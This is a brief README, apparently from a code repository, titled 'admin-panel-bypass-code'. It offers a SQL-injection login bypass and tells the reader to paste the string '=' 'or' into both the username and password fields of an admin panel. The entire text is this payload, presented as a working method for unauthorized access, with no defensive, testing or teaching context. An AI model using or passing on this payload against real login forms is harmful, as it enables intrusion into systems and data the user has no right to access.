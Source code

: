 # admin-panel-bypass-code
You can bypass admin panel simple with this method.

# Usage:
paste the code on username and password

# Examp:
user     : '=' 'or'
password : '=' 'or'

